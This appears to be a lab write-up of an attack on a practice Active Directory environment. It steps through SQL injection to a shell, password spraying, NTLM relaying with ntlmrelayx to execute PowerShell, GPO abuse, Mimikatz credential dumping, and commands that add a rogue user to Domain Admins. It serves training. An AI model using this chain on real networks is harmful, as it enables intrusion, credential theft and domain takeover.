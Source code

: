 # lkylabs version 1 writeup by chryzsh

This is a detailed writeup of version 1 of lkys37en's Active Directory lab. It contains elements of network enumeration, domain enumeration, relaying and abusing configuration/misconfiguration of security controls.

**Tools**
* Empire
* Powershell
* Responder
* Bloodhound
* Powerview
* Mimikatz
* Sqlmap
* Nmap
* CrackMapExec


## Network enumeration
nmap 10.7.12.11
10.7.12.12
10.7.12.13

## Getting a foothold
Sqlmap

Sql injection on WEB01 10.7.12.12 leads to os-shell as lab\sqladmin in sqlmap

In os-shell, use oneliner ninshang Invoke-PowerShellTcp.ps1 to get a proper shell


## Get a domain user
Get list of domain users with net users /domain

### Alternative route: password spraying
https://www.youtube.com/watch?v=hBvrC4t2hn8
Generate a list of passwords https://github.com/asciimoo/exrex


```
python exrex.py "(Spring|Winter|Autumn|Fall|Summer)(20)1(78)!" > passwords.txt
```

msfconsole
auxiliary/scanner/http/owa_login
set pass_file passwords.txt
set user_file usernames.txt
set domain
set rhost 10.7.12.10

## Domain enumeration
Bloodhound
Powerview

## File share enumeration
Powerview
net view \\fs01
dir \\fs01


Enumerate file shares. Find the \\FS01.lab.local\Groupdata using dir \\FS01.lab.local\ as sqladmin. You can also try net view \\fs01

The file share contains a VPN file that can be used to open a L2 tunnel into the internal lab on 10.8.13.0/24 subnet



## Relaying
Responder
ntlmrelay
CME?

Launch responder and capture netntlmv2 hashes that can be relayed. Responder should pick up two users
responder -I tap0 -wrf


Make a list of target machines, those should be WS05 if you check permissions of the users that are picked up.

Use ntlmrelay to relay the hashes and execute the ninshang powershell oneliner. Keep a listener ready

ntlmrelayx.py -tf targets.txt -c 'powershell.exe blabla oneliner'

A shell should now be granted on the target box as the user who's hash was relayed (lab\DPayne)


## GPO enumeration
Powerview

Enumerate GPOs with `Get-NetGPOGroup` to disover a GPO called MailServer-Config, which is interesting

Convert the SID of the Member to domain name

```
Convert-SidToName S-1-5-21-1704012399-894155344-4184019992-1154
```


This resolves to BUILTIN\Administrators
Enumerate GPOs further, including the MailServer-Config


```
Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```


This shows that Server Admins has write permissions on the GPO, which is a serious misconfig



```
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```


We see that the group "Server Admins" has modification rights on this GPO. Let's trackthis back to which machines the GPO is applied to



```
Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}
```


The result is merely MX01.lab.local, which indicates the GPO is applied on MX01
To view the GPO itself use:
 `type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"`
 
This GPO apparently adds a group to the builtin Administrators group on MX01. This can then be edited to instead add the "Server Admins" group.

To trigger the GPO for a specific machine use: `Invoke-GpUpdate -Computer MX01 -Force`

In a few minutes the GPO should be pushed to MX01 and local admin privileges should be granted to "Server Admins". It is then possible to use WinRM or other tricks to spawn a shell on the box.


## Getting domain admin
Mimikatz

Now, execute Mimikatz to get the credentials of users on the box. This gets the credentials of BDavis, a highly privileged server admin. Spawn a shell as BDavis on the box
Import Powerview on this box
Now, execute Mimikatz on MX01 and discover another user and his/her plaintext credentials. This user is domain admin so spawn a new shell. An alternative here would be using token impersonation.
Proceed to add yourself as a user on the domain and add yourself to the domain.
net user chryzsh password /add /domain
net group "Domain Admins" /add chryzsh /domain
net group "Remote Desktop Users" /add lab\chryzsh /domain

